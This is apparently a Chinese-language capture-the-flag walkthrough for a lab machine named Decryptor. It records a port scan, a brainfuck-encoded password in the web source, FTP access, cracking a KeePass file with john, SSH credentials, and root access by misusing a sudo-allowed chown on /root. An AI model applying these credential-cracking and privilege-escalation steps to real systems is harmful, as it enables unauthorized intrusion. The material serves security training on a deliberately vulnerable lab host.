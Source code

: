 # Decryptor

2025.03.06 https://thehackerslabs.com/decryptor/

## Ip

192.168.5.39

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2121/tcp open  ccproxy-ftp
```

80 web 源码底部发现 brainfuck 编码:

```
++++++++++[>+++++++++++>++++++++++>+++++++++++>+++++++++++>+++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++++>+++++++++++>++++++++++>++++++++++++>++++++++++++>++++++++++>++++++++++<<<<<<<<<<<<<<<-]>-.>---.>++++.>-----.>+.>+.>---.>----.>-----.>--.>+.>----..>---.>-.>+.

marioeatslettuce
```

像是个密码

对 80 扫描什么都没发现，只有上面这个字符串在仔细看看，好像能分解成 `marioeatslettuce` 尝试登陆 ssh 和 ftp，发现能登陆 ftp。

发现 keeppass 文件 user.kdbx，使用 john 找到其密码为 moonshine1 ，在线解密 https://app.keeweb.info/ 输入密码，得到加密内容: `chiquero:barcelona2012` 应该是 ssh 的凭据进行登陆。

先拿到 user flag：

```
chiquero@Decryptor:/home/mario$ cat user.txt
sfds5gf6sfdcdafsd5a7sdcydsf58
```

sudo -l 发现 chown 可以直接修改 /root 目录所有者：

```
chiquero@Decryptor:/var/www/html$ sudo chown chiquero:chiquero /root
chiquero@Decryptor:/var/www/html$ cd /root
chiquero@Decryptor:/root$ ls
root.txt
chiquero@Decryptor:/root$ cat root.txt
84c853bhfs5gsdfvsf4dasbsrha3a
```
